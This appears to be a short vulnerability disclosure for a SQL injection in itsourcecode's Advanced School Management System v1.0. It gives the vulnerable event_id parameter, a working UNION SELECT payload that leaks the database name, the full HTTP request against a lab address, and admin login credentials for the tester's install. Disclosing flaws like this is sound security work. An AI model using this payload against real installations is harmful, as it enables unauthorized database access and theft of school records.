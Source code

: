 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

Login account: suarez081119@gmail.com/12345 (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

Vulnerability File: /school/model/get_events.php?event_id=

Vulnerability location: /school/model/get_events.php?event_id=,id

[+] Payload: /school/model/get_events.php?event_id=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+ // Leak place ---> id

Current database name: std_db,length is 6


```sql
GET /school/model/get_events.php?event_id=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=kh42r202aj35u61brcutn42s96
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/171970966-9025b9d7-842e-4ea7-b27a-e2807019334c.png)

